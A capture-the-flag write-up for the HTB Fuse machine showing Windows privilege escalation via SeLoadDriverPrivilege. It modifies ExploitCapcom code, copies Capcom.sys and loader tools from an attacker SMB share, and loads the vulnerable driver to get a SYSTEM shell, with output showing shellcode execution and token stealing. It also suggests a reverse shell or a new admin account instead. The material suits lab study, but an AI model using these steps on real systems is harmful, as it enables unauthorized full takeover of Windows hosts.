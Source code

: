 
# SeLoadDriverPrivilege 

Check with whoami /priv


## Example HTB Fuse

* Capcom.sys - https://github.com/FuzzySecurity/Capcom-Rootkit/tree/master/Driver
* EoPLoadDriver.exe - https://github.com/TarlogicSecurity/EoPLoadDriver
* ExploitCapcom.exe - https://github.com/tandasat/ExploitCapcom


You will have to compile the exe's yourself. But it was as easy as opening the cpp files in Visual Studio C++ 2019 (on my Win10 VM) and doing a x64 release build (shortcut for building without executing: CTRL+SHIFT+B ).

You will need to change ExploitCapcom.cpp since by default it will try to open another cmd GUI window with SYSTEM privs. But since we don't have RDP access (only a winrm shell), that won't do.


ExploitCapcom.cpp
```C
/************ Original Code ************/
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))

/************ Changed Code ************/
    if (!CreateProcess(L"C:\\Windows\\system32\\cmd.exe", L"/c \"type c:\\users\\administrator\\Desktop\\root.txt\"", nullptr, nullptr, FALSE,
        0, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
```

Transfer the files to the target and exploit:

```powershell
cd $env:TEMP

copy \\10.10.13.37\EVILSHARE\Capcom.sys
copy \\10.10.13.37\EVILSHARE\EoPLoadDriver64.exe
copy \\10.10.13.37\EVILSHARE\ExploitCapcom64.exe

.\EoPLoadDriver64.exe System\CurrentControlSet\CapcomService C:\Users\svc-print\AppData\Local\Temp\Capcom.sys
.\ExploitCapcom64.exe
```

Expected output:
```powershell
*Evil-WinRM* PS C:\Users\svc-print\AppData\Local\Temp> .\EoPLoadDriver64.exe System\CurrentControlSet\CapcomService C:\Users\svc-print\AppData\Local\Temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\CapcomService
NTSTATUS: 00000000, WinError: 0
*Evil-WinRM* PS C:\Users\svc-print\AppData\Local\Temp> .\ExploitCapcom64.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 00000241B3EF0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
<flag_printed_here>
```

So the root flag is: `<censored>`

Instead of printing the flag you could execute a reverse shell that you have generated with msfvenom or create a new Admin user. 


